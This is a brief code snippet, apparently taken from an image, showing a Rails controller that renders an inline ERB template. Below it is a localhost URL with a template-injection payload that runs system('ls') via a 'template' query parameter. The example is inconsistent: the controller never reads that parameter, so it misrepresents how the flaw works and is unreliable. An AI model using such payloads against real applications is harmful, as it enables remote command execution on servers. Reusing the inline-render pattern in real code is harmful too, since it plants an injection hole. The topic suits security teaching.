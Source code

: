 Source code:

```
class ProductsController < ApplicationController
  def show
    @product = Product.find(params[:id])
    @template = "
      <html>
        <body>
          <h1><%= @product.name %></h1>
          <p><%= @product.description %></p>
          <p>Price: <%= @product.price %></p>
        </body>
      </html>
    "
    render :inline => @template, :locals => {:product => @product}
  end
end
```

```http://localhost:3000/products/1?template=<%= ActiveSupport::Inflector.inflections.clear; ActiveSupport::Inflector.inflections.plural 'person'; system('ls') %>```

